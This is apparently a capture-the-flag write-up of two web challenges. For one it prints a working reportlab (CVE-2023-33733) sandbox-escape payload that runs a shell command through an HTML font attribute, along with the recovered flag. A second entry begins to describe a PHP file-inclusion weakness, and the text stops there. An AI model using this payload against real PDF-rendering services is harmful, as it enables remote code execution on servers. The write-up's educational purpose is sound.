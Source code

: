## Web 5: Html to pdf:

![Screenshot 2025-01-12 165349](https://github.com/user-attachments/assets/09a4c721-cebc-4b97-bf25-6fe7daf71daf)

Hint: `reportlab==3.6.12`

With that hint, i found [this](https://github.com/c53elyas/CVE-2023-33733/tree/master)

Copy the malicious html and create a html file:

```html=
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('cat flag.txt > /app/static/test.txt') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    exploit
</font></para>
```

Upload this html:

![Screenshot 2025-01-12 165958](https://github.com/user-attachments/assets/1913be16-51ae-4c45-a9ed-ee83005b0fbb)

Access /static/test.txt to get flag:

![Screenshot 2025-01-12 170055](https://github.com/user-attachments/assets/0d60adc1-9fbb-4e12-ab0a-05e16181a04c)

### FLag: 
`
VSL{67786e838bcf22c75b7f2d68b0e9915b}
`

## Web 7: Break the limit:

![Screenshot 2025-01-12 160420](https://github.com/user-attachments/assets/1dd743e1-a7ae-44e0-84c9-5a027fc82dfc)

It is the first `first solve` of me, although it isn't intended way. 

![Screenshot 2025-01-12 160427](https://github.com/user-attachments/assets/af01224f-ca16-40df-b98f-9fed5197d5a0)

I suffered from very long source, but i notice a part in `profile.php`:

```php=
 <?php
                            try {
                                include('/tmp/log-' . $user['username'] . '.txt');
                            }catch (Exception $e) {
                                echo 'Log file not found or cannot be read, please logout and login again to generate a new log file.';
                            }
                        ?>
```
